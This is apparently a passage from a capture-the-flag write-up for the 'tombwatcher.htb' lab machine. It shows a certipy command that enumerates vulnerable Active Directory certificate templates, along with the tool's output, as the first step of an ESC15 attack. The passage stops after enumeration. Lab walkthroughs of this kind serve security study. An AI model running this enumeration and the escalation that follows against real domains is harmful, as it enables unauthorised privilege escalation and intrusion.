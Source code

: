 ## ADCS Exploitation: ESC15 Attack

### Enumerating Certificate Templates


```bash
certipy find -u 'cert_admin@tombwatcher.htb' -p 'NewPassword' -dc-ip '10.10.11.72' -text -vulnerable
```

This gives the following output:

```
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
```